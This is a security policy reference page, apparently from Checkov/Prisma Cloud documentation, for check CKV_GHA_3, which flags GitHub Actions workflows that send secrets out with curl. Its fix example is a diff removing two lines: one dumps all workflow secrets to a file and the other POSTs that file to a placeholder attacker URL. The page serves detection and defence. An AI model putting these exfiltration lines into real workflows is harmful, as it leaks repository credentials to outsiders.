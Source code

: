 == GitHub Actions curl is being with secrets
// GitHub Actions curl includes secrets


=== Policy Details 

[width=45%]
[cols="1,1"]
|=== 
|Prisma Cloud Policy ID 
| eee86014-e192-45fd-bcd4-a236421ae7fb

|Checkov Check ID 
| https://github.com/bridgecrewio/checkov/tree/master/checkov/github_actions/checks/job/SuspectCurlInScript.py[CKV_GHA_3]

|Severity
|LOW

|Subtype
|Build

|Frameworks
|GithubAction

|=== 

=== Description 
If a secret is present in a workflow and a bad actor can modify the GitHub Action, they can send the secret to a website they own via curl.

=== Fix - Buildtime


*GitHub Actions* 


Block code and remove code that attempts to exfiltrate secrets.

[source,yaml]
----
       run:  |
-         echo "${{ toJSON(secrets) }}" > .secrets
-         curl -X POST -s --data "@.secrets" <BADURL > /dev/null
----
----

